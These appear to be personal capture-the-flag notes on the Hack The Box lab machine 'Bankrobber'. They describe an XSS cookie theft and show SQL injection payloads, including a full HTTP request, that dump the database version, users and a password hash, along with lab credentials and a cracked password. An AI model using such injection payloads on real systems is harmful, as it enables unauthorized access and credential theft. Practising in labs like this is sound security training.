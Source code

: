 # Bankrobber

- Difficulty: "Insane"
- Platform: Windows
---

10.10.10.154

## Nmap
```nmap
I wiped out disk without backing up notes like an idiot... 
picking up from web-admin access

The Rundown:

Esentially, there is a database user search and and E-Coin transfer service. 
The transfer service is manually reviewed by an administrator. 

The filed inputs do not validate/sanitize.
A cross-site scripting attack is possible, although finicky, returning the administrator's cookie within the response headers.

There seems to be SQL-Injection present in the user database lookup, although I have yet to go any further. I am conflating both these things together and I forget what I actually did ut oh well... continuing.
```

`admin:Hopelessromantic`

A regular union select statement reveals version `MariaDB-10.1.38` in field 2:`
```http
POST /admin/search.php HTTP/1.1
Host: 10.10.10.154
Content-Length: 37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.10.10.154
Referer: http://10.10.10.154/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close

term=1'union+select+1,@@version,3-- -
```

```
term=1'union+select+1,user()+from+mysql.user,3-- -
user: `root@localhost`

lucky guess:
term=1'union slect user,password,3 from mysql.user--
hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

SHA-1 hash decodes to `Welkom1!`
